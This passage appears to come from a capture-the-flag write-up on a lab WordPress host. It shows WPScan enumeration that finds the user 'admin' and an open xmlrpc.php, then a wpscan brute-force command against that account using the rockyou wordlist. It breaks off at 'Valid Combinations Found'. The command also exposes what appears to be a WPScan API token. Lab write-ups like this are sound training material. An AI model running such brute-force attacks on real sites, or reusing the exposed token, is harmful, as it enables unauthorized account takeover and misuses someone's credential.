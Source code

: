 ```bash
[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

<REDACTED>

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 22
```

Analyzing a bit the output, we can see that the `xmlrpc.php` is enabled, this allow us to brute-force credentials without limits, we also found a user `admin`, so the next step that i found plausible is to brute force the `admin` password.

```bash
❯ wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt --api-token "WkDah4Og5UQhI6ZdhJrY5u855DH1CrubMqaTrlmjxvk"
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/ [10.10.27.35]
[+] Started: Wed Mar  5 20:51:06 2025

[+] Performing password attack on Xmlrpc against 1 user/s

[!] Valid Combinations Found:
```